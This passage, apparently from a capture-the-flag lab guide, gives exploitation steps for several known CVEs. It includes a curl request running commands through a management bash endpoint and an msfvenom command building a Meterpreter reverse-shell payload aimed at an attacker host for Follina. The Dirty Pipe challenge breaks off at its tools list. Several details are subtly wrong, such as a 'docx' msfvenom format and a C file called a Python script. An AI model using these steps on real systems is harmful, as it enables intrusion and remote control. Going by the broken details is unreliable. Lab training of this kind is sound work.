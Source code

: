 **Exploitation Steps:**
1. Send a crafted `POST` request with the following:
   ```bash
   curl -k -X POST "https://<server_ip>:443/mgmt/tm/util/bash" \
   -H "Authorization: Basic dXNlcjpwYXNzd29yZA==" \
   -d '{"command":"run", "utilCmdArgs":"-c id"}'
   ```
2. Observe the output.

**Expected Outcome:**
Receive an `id` output indicating unauthorized command execution.

---

### **Challenge 3: CVE-2022-30190 (Follina)**
**Vulnerability Type:** Injection

**Service Port:** 80

**Description:** Exploit leveraging MS Office documents with remote template injection.

**Hint:**
- Look for files that reference remote `.docx` URLs.
- Observe the template injection behavior.

**Tools:**
- `msfvenom`
- Python HTTP server (`http.server`)

**Exploitation Steps:**
1. Generate an MS Office `.docx` payload:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f docx > exploit.docx
   ```
2. Host the payload on your HTTP server.
3. Force the vulnerable server to open the document.

**Expected Outcome:**
Receive a Meterpreter session on the listening attacker machine.

---

### **Challenge 4: CVE-2022-0847 (Dirty Pipe)**
**Vulnerability Type:** Injection (Privilege Escalation)

**Service Port:** Local Privilege Escalation

**Description:** A Linux kernel vulnerability that allows privilege escalation.

**Hint:**
- Requires kernel version 5.8 or higher.
- Exploit with file overwrites.

**Tools:**
- Python exploit script (`dirtypipe.c`)
- `gcc` for compilation
